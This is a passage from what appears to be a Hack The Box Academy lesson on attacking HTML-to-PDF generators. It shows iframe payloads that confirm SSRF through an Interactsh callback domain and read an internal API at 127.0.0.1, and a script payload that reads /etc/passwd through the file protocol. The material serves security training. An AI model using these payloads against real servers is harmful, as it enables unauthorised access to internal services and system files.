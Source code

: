 ```html
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>

```

Injecting the three payloads and generating a PDF results in three requests to our `Interactsh` domains, such that we successfully confirmed SSRF with all three payloads:

![](https://academy.hackthebox.com/storage/modules/204/pdfssrf_1.png)

Furthermore, looking at the generated PDF, we can see that the injected iframe contains the HTTP response sent by `Interactsh`:

![image](https://academy.hackthebox.com/storage/modules/204/pdfssrf_2.png)

Thus, we do not have a blind SSRF vulnerability but a regular SSRF, which is significantly more severe as it allows us to exfiltrate data more easily. For instance, we can make a request to any internal endpoint, and get the response displayed to us. As an example, we can leak data from an internal API like so:

```html
<iframe src="http://127.0.0.1:8080/api/users" width="800" height="500"></iframe>

```

The generated PDF contains the response from the internal API, potentially revealing sensitive information to us that we are unable to access externally:

![image](https://academy.hackthebox.com/storage/modules/204/pdfssrf_3.png)

For more details on SSRF exploitation, check out the [Server-side Attacks module](https://academy.hackthebox.com/module/details/145).

* * *

## Local File Inclusion

Another powerful vulnerability we can potentially exploit with the help of PDF generation libraries is `Local File Inclusion` ( `LFI`). There are multiple HTML elements we can try to inject to read local files on the server.

#### With JavaScript Execution

If the server executes our injected JavaScript, we can read local files using [XmlHttpRequests](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) and the `file` protocol, resulting in a payload similar to the following:

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

```
